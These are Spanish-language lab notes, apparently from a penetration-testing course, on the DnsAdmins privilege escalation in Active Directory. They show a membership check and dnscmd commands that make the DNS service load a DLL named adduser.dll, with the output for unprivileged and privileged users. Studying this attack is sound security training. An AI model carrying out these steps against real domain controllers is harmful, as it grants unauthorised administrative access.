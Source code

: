 Comando:

```cmd
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED

```

* Resultado esperado para usuario normal: `ERROR_ACCESS_DENIED` (Status = 5). El servicio DNS no permite que usuarios no miembros de `DnsAdmins` cambien esa configuración.

---
## Caso contrario se tienen privilegios
## Confirmar pertenencia a `DnsAdmins`

Comando PowerShell mostrado:

```powershell
Get-ADGroupMember -Identity DnsAdmins


distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109
```

* `Get-ADGroupMember` lista miembros de un grupo de Active Directory.
* Salida muestra atributos como `distinguishedName`, `name`, `SamAccountName`, `objectGUID`, `SID`.
* En este caso vemos que nuestro usuario aparece entre los miembros

---

## Carga de la DLL como miembro de `DnsAdmins`

Comando:

```cmd
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

* Si el usuario es miembro de `DnsAdmins`, la respuesta será `Registry property serverlevelplugindll successfully reset.` y `Command completed successfully.`
* **Nota importante del texto:** hay que dar la ruta **completa** a la DLL; si no se especifica bien, el servicio no la cargará correctamente.
* Sólo dnscmd puede modificar esa propiedad, no es un permiso directo sobre la clave de registro para el usuario.

---